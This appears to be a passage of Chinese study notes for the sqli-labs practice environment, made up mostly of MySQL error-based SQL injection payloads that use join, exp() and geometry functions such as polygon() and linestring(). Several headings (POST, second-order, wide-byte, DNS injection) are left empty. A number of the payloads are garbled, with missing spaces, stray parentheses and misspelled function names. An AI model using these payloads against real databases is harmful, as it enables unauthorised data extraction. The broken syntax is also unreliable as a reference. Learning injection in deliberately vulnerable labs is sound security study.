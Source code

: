 ### 通过join报错注入

> select * from(select * from mysql.user ajoin mysql.user b)c;

### 通过exp报错注入

> and exp(~(select * from (select user()) a) );

### 通过GeometryCollection()报错注入

> and GeometryCollection(()select *from(select user() )a)b;

### 通过ploygon()报错注入

> and polygon (()select * from(select user())a)b;

### 通过multipoint()报错注入

> and multipoint (()select * from(select user() )a)b;

### 通过multingestring()报错注入

> and multlinestring (()select * from(select user() )a)b;

### 通过multpolygon()报错注入

> and multpolygon (()select * from(select user() )a)b;

### 通过linestring()报错注入

> and linestring (()select * from(select user() )a)b;

## POST注入

## 二次注入

## 宽字节注入

## DNS注入

通过sqli-labs进行学习
学习参考视频：[https://www.bilibili.com/video/BV1e441127Rd](https://www.bilibili.com/video/BV1e441127Rd)